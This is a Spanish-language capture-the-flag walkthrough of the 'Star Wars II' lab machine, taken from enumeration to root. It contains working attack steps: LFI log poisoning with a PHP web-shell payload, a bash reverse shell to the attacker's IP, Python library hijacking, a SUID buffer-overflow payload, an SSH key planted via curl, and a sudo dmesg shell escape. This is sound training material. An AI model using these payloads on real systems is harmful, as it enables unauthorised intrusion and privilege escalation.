



## Table of contents

## Enumeración

La máquina Star Wars II tiene la ip **10.0.2.45**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open --min-rate 5000 -sCV -n -Pn 10.0.2.45

Nmap scan report for 10.0.2.45
Host is up (0.00021s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.0.2.45
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0          104999 May 24 18:09 escritos_sagrados_jedi_ahch_to
|_-rw-r--r--    1 0        0           93537 May 24 18:07 illo_que_arte
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u9 (protocol 2.0)
| ssh-hostkey: 
|   256 af:79:a1:39:80:45:fb:b7:cb:86:fd:8b:62:69:4a:64 (ECDSA)
|_  256 6d:d4:9d:ac:0b:f0:a1:88:66:b4:ff:f6:42:bb:f2:e5 (ED25519)
80/tcp open  http    Apache httpd 2.4.67
|_http-title: Did not follow redirect to http://starwars.thl/
|_http-server-header: Apache/2.4.67 (Debian)
```

### Puerto 80 (Web)

Vemos que se está aplicando **Virtual Hosting** por lo que debemos  añadir la ip de la máquina y su dominio al **/etc/hosts**

```bash
echo '10.0.2.45 starwars.thl | sudo tee -a /etc/hosts'
```

Ahora podemos acceder a dicho dominio. Una vez dentro tenemos un botón para "Iniciar Misión" y después de la clásica introducción del universo de Star Wars se nos redirige a un subdirectorio **/halcon_milenario**

Hay varias formas de acceso al servidor, en este caso vamos a realizar la que me pareció más interesante.

En la web hay un menú interactivo con diferentes personajes, al hacer click en cada uno de ellos vemos que se tramita una petición por **GET** con el parámetro **character**.

Si revisamos la consola del navegador obtenemos información importante.



Parece que el **index.php** admite otro parámetro, por lo que vamos a buscarlo. Ya que el **CTF** está inspirado en el universo del que toma su nombre, podemos probar direfentes palabras relacionadas con él y una de ellas como es **order66** nos arroja éxito.



Tenemos un **Local File Inclusion** (**LFI**). Tratando de enumerar archivos sensibles conseguimos acceder al **/var/log/auth.log**



Este archivo muestra los logs de acceso al servico **SSH**, no se pueden ver las contraseñas pero sí los usuarios, por lo tanto, podemos realizar un **Log Poisoning** para poder ejecutar comandos.

## Explotación

Para ello, tenemos que enviar el payload de php en el nombre del usuario pero, si probamos usando ssh desde la terminal veremos un error de caracteres.

```bash
ssh '<?php system($_GET["cmd"]);?>'@starwars.thl
remote username contains invalid characters
```

Así que, vamos a emplear un script de python para envenenar el log por ssh y posteriormente, apuntar a él desde la web para ejecutar comandos del sistema.

```python
import paramiko

ssh = paramiko.SSHClient()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

try:
    ssh.connect('10.0.2.45', username='<?php system($_GET["cmd"]) ?>', password='')
    print("Successful Log Poisoning")
except: 
    print("Authentication Error")
finally:
    ssh.close()
```

Lo ejecutamos y a pesar de que paramiko nos arroja un error de autenticación, el log poisoning se ha realizado. Para comprobarlo usamos **curl** y le pasamos el nuevo parámetro **cmd** con un comando.

```bash
curl 'http://starwars.thl/halcon_milenario/index.php?character=CHEWBACCA&order66=/var/log/auth.log&cmd=id'

...
TheHackersLabs-StarwarsII sshd[749]: Invalid user uid=33(www-data) gid=33(www-data) groups=33(www-data)
 from 10.0.2.38 port 48398
...
```

Tenemos **RCE**, nos ponemos en escucha con **netcat**

```bash
nc -nlvp 4444
```

Y nos enviamos una reverse shell

```bash
curl 'http://starwars.thl/halcon_milenario/index.php?character=CHEWBACCA&order66=/var/log/auth.log&cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.0.2.38/4444+0>%261"'
```

Entramos como el usuario **www-data**

## Movimiento Lateral
### Han Solo

Los permisos sudoers nos permiten ejecutar **php** como el usuario **han_solo** sin proporcionar contraseña

```bash
sudo -u han_solo /usr/bin/php -r 'system("/bin/bash");'
```

Obtenemos una bash como **han_solo**

### Chewbacca

Revisando los permisos sudoers vemos que podemos ejecutar como el usuario **chewbacca** el script **chewietranslator**.

```bash
Han Solo: El Contrabandista Legendario@halcon_milenario:~$ sudo -u chewbacca /usr/local/bin/chewietranslator 

Traceback (most recent call last):
  File "/usr/local/bin/chewietranslator", line 6, in <module>
    import wookie_language
ModuleNotFoundError: No module named 'wookie_language'
```

Falta un módulo llamado **wookie_language**, este error nos da a entender que se trata de un script de python, por lo que podemos realizar un **Python Library Hijacking** con ese módulo.

Creamos el módulo en el directorio **tmp**

```bash
echo 'import os; os.system("/bin/bash")' > /tmp/wookie_language.py
```

Nos vamos a ese directorio, volvemos a ejecutar el script como **chewbacca** y conseguimos una bash como ese usuario.

### Luke Skywalker

Si revisamos el directorio de **chewbacca** vemos un script de **C** y su compilado.

```bash
Chewbacca: El Inseparable Wookie@halcon_milenario:~/almacen_wookie$ ls -la
total 32
drwxr-xr-x 2 luke_skywalker luke_skywalker  4096 may 25 18:25 .
drwx------ 6 chewbacca      chewbacca       4096 jul  3 11:26 ..
-rwsr-xr-x 1 luke_skywalker luke_skywalker 16624 may 25 18:10 hyperdrive
-rw-r--r-- 1 chewbacca      chewbacca       2943 may 25 18:24 hyperdrive.c
```

El compilado **hyperdrive** tiene permisos **SUID** de **luke_skywalker** y tenemos su código sin compilar, así que vamos a revisarlo.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void take_xwing_controls() {
    printf("\n=================================================================\n");
    printf("   [+] *CLACK* The coupler snaps into place under heavy blows!   \n");
    printf("   [+] THE HYPERDRIVE MOTIVATOR RECONSTRUCTS VIA OVERLOAD!        \n");
    printf("=================================================================\n");
    printf("\n[Chewbacca]: *¡¡WRAAAUUGHHH!!* (Translated: Direct current routed to external hangar!)\n");
    printf("[Luke Skywalker]: \"I copy you, Chewie! My fighter's systems just sparked to life.\"\n");
    printf("[SYSTEM] Transferring tactical flight controls to: RED_FIVE (Luke Skywalker)\n\n");

    setuid(geteuid());
    setgid(getegid());

    char *args[] = {"/bin/bash", "-p", NULL};
    execve("/bin/bash", args, NULL);
}

void search_scrap_pile() {
    char buffer[128];

    printf("\n[*] [Chewbacca]: *Argh!* Enter the spare part you are looking for: ");
    fgets(buffer, sizeof(buffer), stdin);

    printf("[SYSTEM] Scanning inventory registry: %s", buffer);
    printf("[*] Just another broken sensor dish... Nothing useful down here.\n");
}

void bypass_hyperdrive(char *input) {
    char buffer[64];

    memcpy(buffer, input, 256);

    printf("\n[!] [MECHANICS] Jamming the heavy gauge power line into the regulator...\n");
    printf("[*] Copper relay status: %s\n", buffer);
    printf("[!] WARNING! High voltage is overflowing the Millennium Falcon's capacitor bank!\n");
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);

    char input[256];
    int option;

    printf("=================================================================\n");
    printf("             CORELLIAN ENGINEERING CORP. // YT-1300              \n");
    printf("             MILLENNIUM FALCON DIAGNOSTIC TERMINAL v5.0         \n");
    printf("=================================================================\n");
    printf("[*] Imperial TIE Fighters incoming! The hyperdrive motivator is dead again.\n");
    printf("[*] Luke is stranded outside in his X-Wing without takeoff juice.\n");
    printf("[*] Chewie, forget the manuals and brute-force bypass the main power core.\n\n");
    printf("1. Rummage through the workshop junk box (Search for spares)\n");
    printf("2. Force-bypass the hyperdrive motivator (Inject raw payload)\n");
    printf("> ");

    if (scanf("%d", &option) != 1) {
        return 1;
    }
    getchar();

    if (option == 1) {
        search_scrap_pile();
    } else if (option == 2) {
        printf("\n[*] [Chewbacca]: *RAWRGWAARRGWWWR!!* (You wedge a stripped wire into the panel): ");
        fgets(input, sizeof(input), stdin);

        input[strcspn(input, "\n")] = 0;
        
        bypass_hyperdrive(input);
    } else {
        printf("\n[-] *Pshhh...* Short circuit. Wrong lever pulled. The Empire wins this day.\n");
    }

    return 0;
}
```
Lo interesante es la función **take_xwing_controls** que nos proporciona una bash como luke pero en el flujo del programa no se llega a ejecutar. 

Tenemos que realizar un pequeño **Buffer OverFlow** (**BoF**) aprovechándonos de la mala gestión de memoria de la función **bypass_hyperdrive** para hacer que el programa apunte a la dirección de memoria de **take_xwing_control** y así la ejecute.

Primero vamos a ver las protecciones que tiene activas el binario, para ello nos lo pasamos a nuestra máquina y usamos **checksec**

```bash
checksec --file=hyperdrive

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   51 Symbols        No    0               3               hyperdrive

```

La opción **No PIE** nos indica que el binario siempre se ejecuta en una dirección de memoria fija, así que vamos a obtener la dirección de memoria que nos interesa.

La máquina tiene instalado **gdb** por lo que lo vamos a emplear para sacar la dirección de memoria de la función.

```bash
Chewbacca: El Inseparable Wookie@halcon_milenario:~/almacen_wookie$ gdb -q hyperdrive

Reading symbols from hyperdrive...
(No debugging symbols found in hyperdrive)

(gdb) print take_xwing_controls
$1 = {<text variable, no debug info>} 0x4011e6 <take_xwing_controls>
```

Ya la tenemos **0x4011e6**.

Analizando el código vemos que la clave del desbordamiento está en la función **bypass_hyperdrive** que reserva **64 bytes** para **buffer** pero **memcpy** copia **256 bytes** desde el input del usuario, lo que permite sobrescribir el **stack**.

Para poder apuntar a la dirección de memoria objetivo necesitamos **8 bytes** más referentes al **Register Base Pointer** **(RBP)**.

Sólo nos quedaría agregar la dirección de memoria al **Return Instruction Pointer** (**RIP**), de modo que el **payload** sería:

'Payload = [64 Bytes Buffer] + [8 Bytes RBP] + [8 Bytes RIP (take_xwing_controls)]' 

El programa al iniciarse tiene un modo interactivo con dos opciones, 1 y 2, a nosotros nos interesa la 2 por lo que vamos a añadir un 2 y un salto de línea delante del payload.

Ejecutamos y obtenemos una bash como **luke_skywalker**

```bash
(python3 -c 'import sys; sys.stdout.buffer.write(b"2\n" + b"A"*72 + b"\xe6\x11\x40\x00\x00\x00\x00\x00\n")'; cat) | /home/chewbacca/almacen_wookie/hyperdrive
```

**Nota:** El **cat** del final nos permite mantener abierta la **bash**, si no lo ponemos, se cerraría inmediatamente. Además, la dirección de memoria se escribe al revés de dos en dos.

### Root

Antes de seguir revisamos el **id**

```bash
id
uid=1004(chewbacca) gid=1004(chewbacca) euid=1006(luke_skywalker) groups=1004(chewbacca)
```

Nuestro usuario real es **chewbacca** pero estamos ejecutando procesos con los privilegios de **luke**, así que vamos a obtener una bash completa como luke.

Primero creamos el directorio ssh para luke.

```bash
mkdir /home/luke_skywalker/.ssh
```

Ahora en nuestra máquina nos creamos unas keys ssh con **ssh-keygen** y las copiamos a nuestro directorio de trabajo.

Levantamos un servidor http con python y desde la terminal de luke usamos curl para obtener la clave pública y guardarla como **autorized_keys**

```bash
curl -s http://10.0.2.38/id_ed25519.pub -o /home/luke_skywalker/.ssh/authorized_keys
```

Accedemos con la key al servidor como **luke**.

```bash
ssh luke_skywalker@starwars.thl -i luke_key
```

Revisando los permisos sudoers observamos que podemos ejecutar **dmesg** como cualquier usuario sin proporcionar contraseña.

Vamos a ejecutar su menú interactivo y en él escribimos **!/bin/bash** para obtener una bash como **root**

```bash
sudo usr/bin/dmesg -H

!/bin/bash
```


```bash
root@TheHackersLabs-StarwarsII:~# whoami
root
root@TheHackersLabs-StarwarsII:~# ls -la /root
total 180
drwx------  5 root root   4096 jun 24 19:06 .
drwxr-xr-x 18 root root   4096 jun  7 19:14 ..
-rw-r--r--  1 root root 130536 jun  7 19:11 1a87f67c3624f9da57d125dc0a277578.png
-rw-------  1 root root     82 jun 24 19:07 .bash_history
-rw-r--r--  1 root root   3562 may 31 17:38 .bashrc
-rw-r--r--  1 root root   5613 may 27 22:00 dumper_generator.py
-rw-r--r--  1 root root   1854 jun  7 19:11 FELICIDADES
drwxr-xr-x  3 root root   4096 jun 24 19:06 .local
-rw-r--r--  1 root root    439 jun  7 18:58 mensaje.txt
-rw-r--r--  1 root root    182 may 31 17:38 .profile
-rw-r--r--  1 root root     37 jun  7 19:11 root.txt
drwx------  2 root root   4096 jun  7 19:39 .ssh
drwxr-xr-x  3 root root   4096 jun  7 19:14 .vscode-server
```

La flag de user se encuentra en **/home/vader/user.txt**